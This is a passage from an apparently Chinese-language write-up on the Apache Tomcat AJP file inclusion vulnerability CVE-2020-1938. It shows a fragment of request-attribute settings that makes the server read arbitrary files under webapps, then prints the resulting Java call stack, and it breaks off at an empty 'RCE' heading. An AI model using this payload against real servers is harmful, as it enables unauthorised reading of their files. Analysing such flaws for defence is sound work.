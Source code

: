 由于当前 **AJP** 出不了 **webapps**
目录，但是是可以做到任意目录下读的，比如我需要读 **/example/2.txt**
下的文件，只需要这样配置就好了。

    Copy to clipboard    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/examples']},
        {'name':'req_attribute','value':['javax.servlet.include.path_info',2.txt]},
        {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
        ])

![](./resource/(CVE-2020-1938)ApacheTomcat文件包含漏洞/media/rId41.png)

附上任意文件读取的调用栈

    Copy to clipboardserveResource:839, DefaultServlet (org.apache.catalina.servlets)
    doGet:504, DefaultServlet (org.apache.catalina.servlets)
    service:634, HttpServlet (javax.servlet.http)
    service:484, DefaultServlet (org.apache.catalina.servlets)
    service:741, HttpServlet (javax.servlet.http)
    internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
    internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
    doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
    invoke:199, StandardWrapperValve (org.apache.catalina.core)
    invoke:96, StandardContextValve (org.apache.catalina.core)
    invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
    invoke:137, StandardHostValve (org.apache.catalina.core)
    invoke:81, ErrorReportValve (org.apache.catalina.valves)
    invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
    invoke:87, StandardEngineValve (org.apache.catalina.core)
    service:343, CoyoteAdapter (org.apache.catalina.connector)
    service:476, AjpProcessor (org.apache.coyote.ajp)
    process:66, AbstractProcessorLight (org.apache.coyote)
    process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
    doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
    run:49, SocketProcessorBase (org.apache.tomcat.util.net)
    runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
    run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
    run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
    run:745, Thread (java.lang)

### RCE

